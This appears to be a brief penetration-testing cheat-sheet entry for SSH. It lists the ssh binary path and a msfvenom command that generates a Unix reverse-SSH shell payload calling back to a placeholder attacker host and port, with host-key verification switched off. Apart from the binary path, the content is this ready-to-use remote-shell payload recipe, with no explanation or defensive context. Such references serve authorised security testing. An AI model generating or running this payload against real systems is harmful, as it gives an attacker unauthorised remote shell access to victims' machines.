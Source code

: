 # SSH

## 01 - Common Files

```
/usr/bin/ssh
```

## 02 - Generate Payloads

```
$ msfvenom -p cmd/unix/reverse_ssh shellpath=/bin/sh [sshpath=/path/to/ssh] sshclientoptions="UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" lhost=<IP> lport=<PORT>
```